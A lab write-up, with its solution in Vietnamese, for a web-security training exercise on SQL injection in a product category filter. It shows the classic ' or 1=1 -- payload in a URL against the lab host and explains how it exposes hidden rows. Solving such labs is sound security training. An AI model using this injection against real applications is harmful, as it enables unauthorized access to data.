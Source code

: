 # **Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

> This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:  
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
>  To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.  

# Solution:
Dựa theo câu truy vấn ta xác định có 2 đối số là category và released. Thực hiện tiêm sql vào đối số qua URL:  
> https://0a8400e904e4b81e80b6718200c7009f.web-security-academy.net/filter?category=Gifts

Sửa URL:  
> https://0a8400e904e4b81e80b6718200c7009f.web-security-academy.net/filter?category=Gifts%27%20or%201=1%20--

Ở đây câu truy vấn sẽ thành:  
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1 --' AND released = 1
```
Vì 1=1 luôn đúng và phần sql phía sau -- bị comment nên câu truy vấn thực sự là:
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1
```
Như vậy kết quả trả về sẽ là toàn bộ sản phẩm, bao gồm các hàng bị ẩn.


![Image](https://i.pinimg.com/736x/f5/68/04/f56804886125925b781864924c8c8ddc.jpg)